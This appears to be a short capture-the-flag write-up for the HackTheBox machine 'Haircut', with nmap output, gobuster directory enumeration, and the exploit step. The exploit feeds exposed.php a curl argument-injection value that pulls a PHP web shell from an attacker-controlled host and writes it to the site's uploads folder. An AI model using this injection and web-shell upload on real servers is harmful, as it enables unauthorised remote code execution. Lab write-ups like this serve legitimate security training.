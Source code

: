 # Summary



## about target

tip:  10.129.95.174

hostname:  Haircut

Difficulty:  Medium



## about attack

+ web scan with extension, if no found.
+ exploit web, curl options injection.



**attack note**

```bash
Haircut / 10.129.95.174

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e975c1e4b3633c93f2c618083648ce36 (RSA)
|   256 8700aba98f6f4bbafbc67a55a860b268 (ECDSA)
|_  256 b61b5ca9265cdc61b775906c88516e54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser


---- interesting
-- bounce.jpg, no use; 
CDEFGHIJSTUVWXYZcdefghijstuvwxyz

Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


--

---- http enum
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log

# no found.

# gobuster with extension.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log -x php,html

/exposed.php


---- exploit
# exposed.php 
## exploit -o options, upload shell
http://10.10.14.20/phpshell.php -o uploads/phpshell.php
http://localhost/uploads/phpshell.php

```